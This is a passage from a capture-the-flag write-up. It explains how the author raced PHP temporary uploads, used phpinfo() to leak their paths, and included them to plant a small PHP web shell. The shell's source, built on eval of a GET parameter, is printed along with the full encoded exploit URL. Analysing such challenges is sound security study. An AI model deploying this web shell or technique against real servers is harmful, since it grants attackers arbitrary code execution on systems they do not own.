 Whenever we upload a file, PHP temporarily stores it on disk. When the executing PHP script is finished, PHP deletes the
temporary file. However, if we send another request before the first one finishes, the file will still exist. 

For this method to work, we need to know the file path of the uploaded file. 
Luckily, the page runs `phpinfo()` which will print out the temporary path of the uploaded file.
The challenge attempts to prevent race conditions by sleeping for 2 seconds and corrupting `$_SERVER`, `$_GET`, `$_POST`, 
and `$_REQUEST`.

I'm unsure if this was intended, but `$_FILES` was left untouched, so `phpinfo()` will still print out the temporary 
path of the uploaded file. 
We can also sidestep the `sleep(2)` before the `phpinfo()` by sending a payload that loops forever: `A: goto A;` 
Since the timeout in `php.ini` is set to 6 seconds, we still have 2 seconds to send another request after receiving the
response from the first one.

## Including the Temporary Upload

In theory, the temporary upload should be deleted immediately after the PHP script finishes executing, but on the remote
server and in the given docker container, using the above method resulted in the file remaining on disk. 
I assume this is either due to a bug in PHP or a result of PHP exiting abnormally after exceeding the maximum execution time.

Now that we have the path of the uploaded file on disk, we can use the mapping we created earlier to construct a PHP string
and include it. This process was finicky and would take a few retries until all characters in the path could be mapped to,
so I decided to use this method to create a file with the following contents 
(using [`move_uploaded_file`](https://www.php.net/manual/en/function.move-uploaded-file.php)) at `/tmp/uploads/dicedicedice.php`:

```php
<?php
function print_errors($ab, $errString){
    echo("ERROR: " . $errString);
}
set_error_handler ( "print_errors" , E_ALL );

eval($_GET["real_eval"]);
```

Now we have a way to execute arbitrary PHP using the `real_eval` parameter:
```
http://securesecrets.asisctf.com/Y0U_CANT_GUESS_THIS_5TUPLFGSGZYWXOKHINMBDWCKAGERCQJV.php?real_eval=var_dump($GLOBALS);&yummy=include%20PHP_PREFIX%5BPHP_ZTS%5D.READLINE_LIB%5BLC_ALL%5D.PHP_SAPI%5BDNS_NS%5D.PHP_SAPI%5BDNS_A%5D.PHP_PREFIX%5BPHP_ZTS%5D.PHP_OS%5BLOCK_UN%5D.PHP_SAPI%5BDNS_A%5D.DATE_COOKIE%5BPHP_ZTS%5D.PHP_PREFIX%5BLC_ALL%5D.PHP_PREFIX%5BE_NOTICE%5D.DATE_RSS%5BLOCK_UN%5D.PHP_PREFIX%5BDNS_NS%5D.PHP_PREFIX%5BPHP_ZTS%5D.DATE_RSS%5BLOCK_UN%5D.PHP_OS%5BDNS_A%5D.PHP_PREFIX%5BINI_ALL%5D.READLINE_LIB%5BLOCK_UN%5D.DATE_RSS%5BLOCK_UN%5D.PHP_OS%5BDNS_A%5D.PHP_PREFIX%5BINI_ALL%5D.READLINE_LIB%5BLOCK_UN%5D.DATE_RSS%5BLOCK_UN%5D.PHP_OS%5BDNS_A%5D.PHP_PREFIX%5BINI_ALL%5D.READLINE_LIB%5BLOCK_UN%5D.PHP_VERSION%5BDNS_A%5D.PHP_SAPI%5BDNS_A%5D.PHP_LIBDIR%5BLOG_MAIL%5D.PHP_SAPI%5BDNS_A%5D%3B
```
